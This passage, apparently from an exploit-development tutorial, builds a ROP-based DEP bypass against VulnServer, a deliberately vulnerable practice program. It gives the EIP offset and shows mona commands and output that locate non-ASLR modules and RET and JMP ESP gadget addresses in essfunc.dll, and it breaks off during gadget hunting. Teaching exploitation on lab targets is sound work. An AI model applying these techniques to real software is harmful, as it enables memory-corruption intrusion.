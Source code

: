 We now know our offset to EIP is 2003 bytes.

## 3. Manual Gadget Hunting

This is where the real work begins. To build our ROP chain, we need to find small code snippets ("gadgets") in memory that end with a RET instruction. These will be the building blocks of our DEP bypass.

### 3.1 Finding Base ROP Gadgets

1. First, lets identify non-ASLR modules:
```
!py mona modules
```

Output:

```
0x62500000 | 0x62508000 | 0x00008000 | False  | False   | False | False |  False   | False  | -1.0- [essfunc.dll] (C:\VulnApps\essfunc.dll) 0x0
0x00400000 | 0x00407000 | 0x00007000 | False  | False   | False | False |  False   | False  | -1.0- [vulnserver.exe] (C:\VulnApps\vulnserver.exe) 0x0
```

We'll use essfunc.dll because it's typically compiled without ASLR (Address Space Layout Randomization) and Rebase support in standard VulnServer setups (indicated by 'False' in the ASLR/Rebase columns). This simplifies our focus on the DEP bypass itself. Bypassing ASLR would require additional techniques, such as information leaks to find module base addresses dynamically, which are beyond the scope of this specific guide.


2. Find a simple RET instruction (ROP NOP):
```
!py mona find -type instr -s "ret" -m essfunc -cpb "\x00"
```

Output:
```
0x62501022 : ret | {PAGE_EXECUTE_READ} [essfunc.dll]
0x62501057 : ret | {PAGE_EXECUTE_READ} [essfunc.dll]
0x625010b6 : ret | {PAGE_EXECUTE_READ} [essfunc.dll]
0x625011ab : ret | {PAGE_EXECUTE_READ} [essfunc.dll]
```
   
We'll use 0x62501022 as our ROP NOP.


3. Find a JMP ESP gadget:
```
!py mona jmp -r esp -m essfunc -cpb "\x00"
```

Output:
```
0x625011AF : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll]
0x625011C7 : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll]
```
   